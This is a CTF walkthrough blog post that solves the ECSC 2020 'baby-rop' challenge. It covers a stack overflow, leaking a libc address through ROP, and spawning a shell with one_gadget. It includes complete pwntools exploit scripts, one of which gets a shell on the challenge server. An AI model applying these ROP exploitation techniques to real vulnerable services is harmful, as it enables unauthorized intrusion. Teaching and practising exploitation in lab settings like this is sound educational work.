





## Introduction
As a beginner in the CTF world, I just skipped the 'pwn' and 'rev' categories. The challenges seemed too hard for me to solve. This year, however, I decided that I needed to improve and be able to at least solve some basic ones. With that in mind, I participated to [Sin__](https://twitter.com/mztropics)'s beginner rev course, which included as much pwn concepts as reversing ones. When I saw the baby-rop challege during the ECSC 2020 Quals, I knew I needed to solve it.

EDIT: It is worth mentioning that one_gadget is not the ideal tool in this situation because the newer versions of libc introduce a lot of constraints. The easiest solution would be to use system() from LIBC with "/bin/sh" as an argument.

## Mission Briefing

At the time of writing this article, the challenge files & description are available on [CyberEDU](https://cyberedu.ro/). If you want to follow this article, you can get the binary from there (it's free!). Running checksec returns the following output:


$ checksec ./pwn_baby_rop
[*] '/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
$


The program is pretty basic; it prints some text and then reads user input:


$ ./pwn_baby_rop 
Solve this challenge to prove your understanding to black magic.
yakuhito
$


## Crashing the Application
As the name of the challege suggests, the binary is vulnerable to a stack overflow vulnerability which can be triggered by simply inputting 1024 'A's:


$ python -c 'print("A" * 1024)' | ./pwn_baby_rop 
Solve this challenge to prove your understanding to black magic.
Segmentation fault
$


To make things easier, I made the following python script:


from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += b"A" * 1024

io.sendline(payload)
io.interactive()


Besides crashing the app, the program above also attaches the GDB debugger to the application. This will be very helpful in the next steps. After running the script, a new window should pop up with the said debugger. For now, just input 'c' and press enter (it stands for 'continue' and tells the decompiler to continue the execution of the program that is being analyzed). The program will still crash, but the debugger will show the last assembly instruction that failed to execute:


$ python crash.py 
[+] Starting program './pwn_baby_rop': Done
[*] running in new terminal: gdb "/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop" 27040
[+] Waiting for debugger: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$


## Finding the Exact Offset for RIP

As you can see in the image above, the last instruction that is being executed is a return to 0x4141414141414141, which translates to 8 'A' chars. Since the input consisted entirely of 'A's, we can assume that the input has overwritten the return instruction pointer (RIP) address on the stack. 

To control the execution flow, we need to first find out the exact offset of the string that overwrites RIP. To do that, I used pwnlib's cyclic() function:


>>> from pwn import *
>>> cyclic(32, n=8)
'aaaaaaaabaaaaaaacaaaaaaadaaaaaaa'
>>> cyclic_find('aacaaaaa', n=8)
14
>>> 


As you can see in the example above, the function just generates a cyclic pattern. The cyclic_find function is able to find the position of a given substring in that pattern. The optional parameter 'n' basically tells pwnlib that we're going to know at least 8 characters / bytes of the substring given to cyclic_find. Knowing this, we can easily modify crash.py to include cyclic():


from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += cyclic(1024, n=8).encode()

io.sendline(payload)
io.interactive()


After running it, we can see the return address changed to 0x6261616161616169:

The RIP offset can now be easily found using cyclic_find:


>>> from pwn import *
>>> cyclic_find(0x6261616161616169, n=8)
264
>>>


I used the following program to verify this offset:


from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += b"A" * 264                
payload += b"B" * 8

io.sendline(payload)
io.interactive()


The program above sends 264 'A's (you could call that a padding) and then 8 'B's. The RIP (which is 8 bytes long) will be overwritten with the 'B's only if the offset is correct.

It worked! This concludes our OSCP bof preparation :)

## Okay, What Now?

NX is enabled, so we can't just include some shellcode in the payload and then execute it. However, the eecutable loads the LIBC library, which contains a lot of functions that execute OS commands:


$ ldd pwn_baby_rop 
	linux-vdso.so.1 (0x00007ffe74920000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f77edb8b000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f77edf7c000)
$


Another problem arises: LIBC is loaded dynamically, meaning that the base address changes every time the binary is executed. We can't call a function like system without knowing its address.

To solve this problem, we need to leak the address of a function that was loaded (used) in the program. Knowing the LIBC version (more on that later), we can find the offset of that function online and use it to calculate the base of LIBC, which can then be used to calculate the address of any function in the library. I hope that makes sense :)

The functions that are loaded by the binary can be viewed using objdump:


$ objdump -T pwn_baby_rop 

pwn_baby_rop:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0...0      DF *UND*	0...0   GLIBC_2.2.5 puts
0...0      DF *UND*	0...0   GLIBC_2.2.5 __libc_start_main
0...0  w   D  *UND*	0...0                 __gmon_start__
0...0      DF *UND*	0...0   GLIBC_2.2.5 gets
0...0        DF *UND*	0...0   GLIBC_2.2.5 setvbuf
0..00404040 g DO .bss	0...08  GLIBC_2.2.5 stdout
0..0404050 g  DO .bss	0...08  GLIBC_2.2.5 stdin

$


Since puts is the only function that prints something on the screen, we can safely assume it was used to print the 'black magic' text (this theory can also be confirmed using a decompiler like IDA or Ghidra). This means that it was called before gets (the function vulnerable to bof) and it will already be loaded when we overwrite the RIP. We are basically going to call puts(&puts).

We will have to overflow the buffer a second time to execute the LIBC functions required for command execution after calculating their addresses. This can't be done in one go: we first need to get the output of the puts function to build the second payload. To do this, we can simply call main() again.

## Getting the Required Addresses

The binary is stripped, so objdump and grep alone won't do the trick. I found the main() address by opening the binary in IDA and looking throught the loaded functions.

We also need to find the addresses of puts and puts_got (the GOT entry of puts, which contains the address of puts in LIBC). Fortunately, this can be achieved using objdump and grep:


$ objdump -d pwn_baby_rop  | grep -A 4 "<puts@plt>"
0000000000401060 <puts@plt>:
  401060:	f3 0f 1e fa          	endbr64 
  401064:	f2 ff 25 ad 2f 00 00 	bnd jmpq *0x2fad(%rip)        # 404018 <setvbuf@plt+0x2f98>
  40106b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
--
  4015de:	e8 7d fa ff ff       	callq  401060 <puts@plt>
  4015e3:	b8 00 00 00 00       	mov    $0x0,%eax
  4015e8:	e8 89 fb ff ff       	callq  401176 <setvbuf@plt+0xf6>
  4015ed:	b8 00 00 00 00       	mov    $0x0,%eax
  4015f2:	c9                   	leaveq 


If we want to call puts, we should call 0x401060, which calls the value stored at 0x404018 (puts@got). There is only one thing missing: a gadget. When a fnction like puts is called, it loads its parameters from registers mentioned in the system's call convention (in this case, RDI, RSI, RDX, RCX, R8, R9, etc. ). To give puts@got as a parameter, we need to load the address into RDI. To find a 'pop rdi; ret;' gadget, I used [rp++](https://github.com/0vercl0k/rp):


$ rp-lin-x64 -f pwn_baby_rop  -r 1 | grep 'pop rdi'
0x00401663: pop rdi ; ret  ;  (1 found)


Okay, that was everything we needed for the first payload. Let's see the script!

## Leaking a LIBC Address

After plugging all the values obtained in the last step into the program, I got the following script:


from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

# gdb.attach(io)

# 1st stage
main = 0x40145C
puts = 0x401030
puts_got = 0x404018
pop_rdi = 0x00401663

payload = b""
payload += b"A" * 264
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))

io.interactive()


Running the program outputs an address and prints the intro text a second time (thus letting me input another string):


$ python leak_puts.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts address: 0x7fa0f72c79c0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ henlo
[*] Got EOF while reading in interactive
$


It worked! How do I know that? Well, take a look at the command below:


$ objdump -D /lib/x86_64-linux-gnu/libc.so.6  | grep "<_IO_puts@@GLIBC_2.2.5>"
00000000000809c0 <_IO_puts@@GLIBC_2.2.5>:


In my LIBC version, the address of puts ends with 9c0. When the binary is loaded, the base address always ends in 000, so the address of puts will be something ending in 9c0 for my LIBC. However, there are multiple versions of LIBC, each with its different offsets. In order to find the one the remote program uses, we need to leak the remote program's puts@GLIBC address. We can do that by simply chainging


io = process("./pwn_baby_rop")


to 


io = remote("34.89.143.158", 31042)


I got the IP address and port from my CyberEDU dashboard. The program returns a completely different address:


$ python leak_puts_remote.py 
[+] Opening connection to 34.89.143.158 on port 31042: Done
[*] puts address: 0x7f2a455d15a0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ 
[*] Interrupted
[*] Closed connection to 34.89.143.158 port 31042


I used [this tool](https://libc.nullbyte.cat/?q=_IO_puts%3A5a0) to find the potential versions of libc based on the last 3 nibbles of the address. The following results were shown:

In an ideal situation, there would be only one result. However, we can still find the good library using simple logic. The first 4 libraries are 32-bit, so they're out. The last 3 have the same offsets, so any of them can be used. Just select one of them and click 'download'.

## Using the Server's LIBC

After the LIBC library has been downloaded, we need to tell our computer to use that library instead of ours. To do that, we can simply modify the LD_PRELOAD environment variable by changing


io = process("./pwn_baby_rop")


to


env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9_amd64.so"}
io = process("./pwn_baby_rop", env=env)


After running the binary, we can see that the last 3 nibbles of the address are the same as the ones from the server, even though we run the binary on our machine:


$ python exploit.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts address: 0x7f62bc8935a0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$


## Introducing one_gadget

It's finally time to use [one_gadget](https://github.com/david942j/one_gadget). The principle behind this program is simple: the LIBC library contains some addresses that, when called, will spawn a shell. However, like the others, these addresses have different offsets for every version, so the program also need the library or a build hash to perform its magic. Running it is very simple:


$ one_gadget libc6_2.31-0ubuntu9_amd64.so 
0xe6ce3 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6ce6 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6ce9 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL


As you can see, there are 3 possible addresses which will do the job, each with different contraints. I chose to use the last one, but the others might also work. From the site listed above, we know puts' offset is  	0x0875a0, so we can calculate the address of this gadget. However, we still need to make sure the contraints are met.

## Finding More Gadgets

First, RSI should be null or point to an address that has a value of 0. This gadget can be easily found using rp++:


$ rp-lin-x64 -f pwn_baby_rop -r 2 --unique | grep 'pop rsi'
0x00401661: pop rsi ; pop r15 ; ret  ;  (1 found)


The next constraint is that rdx should be null. However, the binary does not contain any gadget that assigns rdx to a value on the stack. Luckily for us, LIBC does:


$ rp-lin-x64 -f libc6_2.31-0ubuntu9_amd64.so -r 2 --unique | grep 'pop rdx'
0x0015509c: mov eax, dword [rbp+0x08] ; pop rdx ; call qword [rax+0x20] ;  (1 found)
0x0015509b: mov rax, qword [rbp+0x08] ; pop rdx ; call qword [rax+0x20] ;  (1 found)
0x00182526: pop rdx ; add eax, 0x83480000 ; retn 0x4910 ;  (1 found)
0x00117960: pop rdx ; add rsp, 0x38 ; ret  ;  (2 found)
0x0015509f: pop rdx ; call qword [rax+0x20] ;  (1 found)
0x00135112: pop rdx ; fdivr st0, st7 ; jmp qword [rsi+0x2E] ;  (1 found)
0x00040a82: pop rdx ; idiv bh ; jmp qword [rsi+0x2E] ;  (1 found)
0x0011cc5b: pop rdx ; or byte [rcx-0x0A], al ; ret  ;  (1 found)
0x0011c1e1: pop rdx ; pop r12 ; ret  ;  (3 found)
0x001626d6: pop rdx ; pop rbx ; ret  ;  (4 found)
0x001028d2: pop rdx ; sub dh, dl ; jmp qword [rbx+rcx*4+0x04] ;  (1 found)


I am going to use 'pop rdx ; pop r12 ; ret  ;', but (again) the other gadgets might also work (I actually used 'pop rdx ; pop rbx ; ret  ;' during the CTF). The following script uses the gadgets we've just found:


from pwn import *

env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9_amd64.so"}
io = process("./pwn_baby_rop", env=env)

io.recvuntil("black magic.\n")

# gdb.attach(io)

# 1st stage
main = 0x40145C
puts = 0x401030
puts_got = 0x404018
pop_rdi = 0x00401663

payload = b""
payload += b"A" * 264
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))
puts_offset = 0x0875a0
libc_base = puts_addr - puts_offset
log.info('LIBC base address: ' + hex(libc_base))

# 2nd stage
pop_rsi_r15 = 0x00401661
pop_rdx_r12 = libc_base + 0x0011c1e1
sys_gadget = libc_base + 0xe6ce9
log.info('gadget address: ' + hex(sys_gadget))

payload = b""
payload += b"A" * 264
payload += p64(pop_rsi_r15)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(pop_rdx_r12)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(sys_gadget)

io.sendline(payload)
io.interactive()


## It Works! Oh, Wait, It Doesn't
I tried to run the script above only to find out that the program crashes:


$ python exploit.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts address: 0x7f68ab5175a0
[*] LIBC base address: 0x7f68ab490000
[*] gadget address: 0x7f68ab576ce9
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ id
[*] Got EOF while reading in interactive
$ 
[*] Program './pwn_baby_rop' stopped with exit code -11
[*] Got EOF while sending in interactive


Please, don't close this page just yet. This is a pretty common problem, so I decided to include it in this article. Let's uncomment the line that attaches gdb to the process and re-run the program:

The instruction that crashed the program tried to access $rbp - 0x78. However, the value of the RBP register is 0x4141414141414141, which indicates that it has been overwritten by our payload. We need to set RBP to a writeable portion of the stack. gdb's 'vmmap' command returns all memory blocks used by the program and their permissions, which is very helpful in this case:



gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00401000         0x00402000         r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00402000         0x00403000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00403000         0x00404000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00404000         0x00405000         rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00007f663189c000 0x00007f66318c3000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f66318cd000 0x00007f66318cf000 rw-p	mapped
0x00007f66318cf000 0x00007f66318f4000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f66318f4000 0x00007f6631a6c000 r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631a6c000 0x00007f6631ab6000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631ab6000 0x00007f6631ab7000 ---p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631ab7000 0x00007f6631aba000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631aba000 0x00007f6631abd000 rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631abd000 0x00007f6631ac3000 rw-p	mapped
0x00007f6631ac3000 0x00007f6631ac4000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f6631ac4000 0x00007f6631ac5000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f6631ac5000 0x00007f6631ac6000 rw-p	mapped
0x00007fff56ea7000 0x00007fff56ec8000 rw-p	[stack]
0x00007fff56f3b000 0x00007fff56f3e000 r--p	[vvar]
0x00007fff56f3e000 0x00007fff56f40000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$


Memory block 0x00404000-0x00405000 is readable and writeable, so it is a very good candidate, even though it is not exactly the stack. I chose to set RBP to 0x00404500, which is in the middle of that memory block. The string that overwirtes RBP is located exactly before the one that overwrites RIP, so we have to modify the payload accordingly.

The final script:


from pwn import *

env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9_amd64.so"}
io = process("./pwn_baby_rop", env=env)

io.recvuntil("black magic.\n")

#gdb.attach(io)

# 1st stage
main = 0x40145C
puts = 0x401030
puts_got = 0x404018
pop_rdi = 0x00401663

payload = b""
payload += b"A" * 264
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))
puts_offset = 0x0875a0
libc_base = puts_addr - puts_offset
log.info('LIBC base address: ' + hex(libc_base))

# 2nd stage
pop_rsi_r15 = 0x00401661
pop_rdx_r12 = libc_base + 0x0011c1e1
sys_gadget = libc_base + 0xe6ce9
log.info('gadget address: ' + hex(sys_gadget))

new_rbp_value = 0x00404500

payload = b""
payload += b"A" * 256
payload += p64(new_rbp_value)
payload += p64(pop_rsi_r15)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(pop_rdx_r12)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(sys_gadget)

io.sendline(payload)
io.interactive()


Running it on the remote address results in a shell:


$ python exploit_remote.py 
[+] Opening connection to 34.89.143.158 on port 31042: Done
[*] puts address: 0x7efcd29df5a0
[*] LIBC base address: 0x7efcd2958000
[*] gadget address: 0x7efcd2a3ece9
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ id
uid=1000(ecsc) gid=3000 groups=3000,2000
$ ls -l
total 20
-rwxr-xr-x 1 root root    70 May 13 09:37 flag
-rwxr-xr-x 1 root root 14520 May 13 09:37 pwn
$ cat flag
[REDACTED]


## Conclusion
Even though this challenge had the word 'baby' in its title, it took me about 5 hours to solve it. You can find the scripts used in this article [on my GitHub](https://github.com/Yakuhito/rop-with-one-gadget/). As always, you can message me on Twitter with any questions you might have.

Until next time, hack the world.

yakuhito, over.